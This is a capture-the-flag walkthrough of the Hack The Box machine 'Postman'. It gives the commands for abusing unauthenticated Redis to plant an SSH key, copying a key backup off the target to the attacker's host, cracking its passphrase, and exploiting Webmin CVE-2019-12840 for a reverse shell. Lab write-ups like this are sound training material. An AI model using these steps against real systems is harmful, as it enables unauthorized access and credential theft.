

# Postman

## Introduction
This walk-through contains the methods I used to get root on this box, the main content was written shortly after the boxes reslease in an attempt to understand what's going on with the exploit route but was never made public until now. At first this machine may be confusing but once you find the online resources and know what tools to apply the exploitation is straight forward to carry out. After enumeration we will be exploiting unauthorized access to the Redis data structure storage tool to dump our own SSH keys onto the target, then through enumeration we can progress to user, the privilege escalation finishes off by adopting and utlising the exploit method for a Common Vulnerabilities and Exposures (CVE) entry for Webmin.

| Skills Required | Skills Learned |
| ----- | ----------------------------------- |
| Usage of Linux | Redis Exploitation |
| Enumeration | Webmin Command Injection |

## Phase 1 – Reconassiance
The initial reconnaissance phase of this machine only requires a port scan with nmap.

### Port Scanning
First we always do an nmap scan on the target to find out what ports are open and what's running on them using ``nmap -T4 -sC -sV -p-  [target IP]``and to save the output for later we can use ``-oN [filename]``.

From the scan results, we can see we have port 22 and 80 open, but the system is also running a HTTP service on port 10000 and an external Redis port is open at 6379. The web site at port 80 will be where people think to go first but unfortunately this will be a dead-end. If we navigate to port 10000 on our browsers we see that the service is running SSL and that we need to login with some credentials but fully enumerating the web site will not help in finding these. 

Redis is a data management software that can act as a data store and a database, usually this is done via localhost but since Redis is running externally on 6379 it indicates that this is a misconfiguration and could be our way in.

## Phase 2 – Exploitation
To exploit this machine we will be using a method which allows us to use Redis to dump our own SSH id_rsa key into the authorized keys file of the Redis system user, however this alone isn’t enough to gain user privilege over the machine, so the exploitation will then require some enumeration and brute-force hash cracking to gain access to the user flag.

### Exploiting Unauthorized Redis Connection
When researching methods to exploit Redis to compromise a system, we can find a method written by someone known as Antirez, their method of exploitation can be found on Packet Storm following this link: https://packetstormsecurity.com/files/134200/Redis-Remote-CommandExecution.html 

The method involves using our access to Redis in order to dump our own id_rsa key into the authorized keys file for the Redis user, this should give us the ability to connect to the machine via SSH on the Redis user account. We can test if we have access to using the Redis Command Line Interface (CLI) by seeing if we can telnet into the port. 

As we can see, telnet allows us access and we can use the echo command, this tells us that there is no authorization required to connect to Redis. Since we are going to be putting our key into the authorized keys file, we need to generate the SSH key, its also a good idea to add white-space either side of the key, this will help insure the whole key is dumped without anything missing. 

To generate the SSH key we use ``ssh-keygen -t rsa -C "[your name]"`` when asked to, save the key in the ``./id_rsa`` file and leave the passphrase blank. Then to add white-space we echo some newlines either side of echoing the key itself and pipe the output into a new key file ``(echo -e "\n\n"; cat id_rsa.pub; echo -e "\n\n") > [key file]``. 

If we cat the output file, we can see our SSH key neatly placed between a few blank lines, we need to put this into the Redis memory and then dump that memory into the Redis authorized_keys file which will allow us to SSH in without any further authentication required. 

First we need to clear the Redis memory database entirely, we can do this by using ``redis-cli -h [target ip] flushall``, agree to install redis-tools if prompted. Then we can echo our key into the Redis database, we must give a name to set the data too by doing ``cat [key file] | redis-cli -h [target IP] -x set keycrack`` with keycrack being the name we gave to the Redis database to identify the value of our SSH key. 

From here we can use Redis and connect to the machine with ``redis-cli -h [target IP]`` and use the command ``config get dir`` to see which folder the Redis instance is running in. We can change this to the SSH key folder of the Redis user account with ``config set dir /var/lib/redis/.ssh/`` and then set our database file name using ``config set dbfilename "authorized_keys"``. 

Using the command ``save`` to save the database file will overwrite the original authorized_keys file with the data stored in the Redis database file. Since we cleared the Redis database before adding a value to ‘keycrack’, the authorized_keys file will contain only the data stored as ‘keycrack’ which is our SSH key we just generated, this means we are now authorized to connect to SSH via the Redis user. Now we can use the command ``ssh -i id_rsa redis@[target IP]`` to connect to the machine. 

### Cracking User Access
We have an SSH connection to the machine as Redis now because the database entry ‘keycrack’ that had our SSH key stored to it was successfully dumped into the authorized_keys file, this can be further proven if we cat the authorized_keys file and see the key we generated placed neatly inside thanks to our additional white space. 

However this still does not give us user access, when we attempt to acquire the user flag we see that the user Redis has limited permissions on this system. 

In order to progress in this case, we need to find clues on the system, through enumeration and searching the system we can find an interesting file in the ``/opt`` folder named ``id_rsa.bak`` which appears to be a discarded encrypted backup SSH key. 

We can either ``cat`` and copy this and save it on our own systems manually or if you have your SSH service set up and running we can use SCP to copy the file over when within the opt folder with the command ``scp id_rsa.bak [your user]@[your IP]:[your DIR]/id_rsa.bak`` using our Hack The Box VPN IP address, our username on our own system and a destination directory of our choosing. 

Now that we have the ``id_rsa.bak`` file on our system, we can use it to get the password of the user who it belongs to, in this case it must be Matts password. We can do this with a brute-force script that can try the ``rockyou.txt`` wordlist or for a more reliable method we can use John The Ripper. In order to use John however we must prepare the id_rsa key by converting it to a format that John can use, John comes with a python script that will convert it to a ``.hash`` file by running it with ``/usr/share/john/ssh2john.py id_rsa.bak > id_rsa.hash``. Note: This feature may be different on different systems, but by using ``locate ssh2john`` you will be able to find the directory in order to run it. 

It seems the operation was a success, we have found that the password for this id_rsa key is “computer2008”. At this point we may try to login to SSH as Matt however this will not work, not because the password is wrong but due to the way the SSH has been configured. We can view this configuration from the redis SSH connection using ``cat /etc/ssh/sshd_config`` and find that Matt is a denied user. 

Thankfully however, we can still access the machine via Matt by now switching users from our Redis SSH connection using the password we found for Matt, the command ``su Matt`` will do this.

Now that we have a connection to the system through Matt, we can finally acquire our user flag from the system. 

## Phase 3 – Privilege Escalation
The privilege escalation phase of this machine is not down to any further enumeration as there are no escalation methods from within the system, instead the method goes back to the Webmin service running on port 10000. We will need to exploit it using CVE-2019-12840, this can be done either via a simple metasploit module found at https://www.exploit-db.com/exploits/46984 or from a python PoC script by KrE80r on github.

### Webmin Command Injection
We have acquired credentials for Matt, if we remember back to the start, there was a webmin login panel hosted at port 10000 but we had no credentials to login with, now lets try logging into webmin using the credentials we have for Matt. I log in with the username “Matt” and the password “computer2008” which we got from John the Ripper. 

We are able to login into the Webmin panel, from here we can see there are limited features available, what we do have however is a software package update feature, from doing further research on the internet we can discover that this feature is vulnerable to command injections in some older versions, referenced as CVE-2019-12840. There is an exploit available as part of the Metasploit Framework however those of your training for industry certifications like the OSCP will want to try to avoid Metasploit as much as possible, since using Metasploit is straight forward and tutorials exist, this walk-through will use a python Proof of Concept (PoC) written by user KrE80r found on their GitHub Repository and can be accessed via https://github.com/KrE80r/webmin_cve-2019-12840_poc/blob/de92885d3a2d646f15b84dcd4dcd46e7b8b79a03/CVE-2019-12840.py.

We can either use the script to inject commands or we can set the ``-lhost`` and ``-lport`` parameters to our Hack The Box IP and a listener port of our choosing to spawn a reverse TCP connection.

Once our listener is started, we just need to run the script as instructed with ``python CVE-2019-12840 -u https://[target IP] -U Matt -P computer2008 -lhost [your IP] -lport 4444`` to gain access. 

Now we can get our root flag and complete the machine.

## Conclusion
In this machine we learned how to gain access to a target via unauthorized access to an external Redis service, this isn’t the most realistic of scenarios as for any administrators to have Redis open to the external network is esentially self sabotage, however it is still an enjoyable machine and a worthwhile technique for understanding how data store management systems can be exploited. The privilege escalation allows us to practice identifying and deploying exploits for Common Vulnerabilities and Exposures (CVE) entries for outdated software.
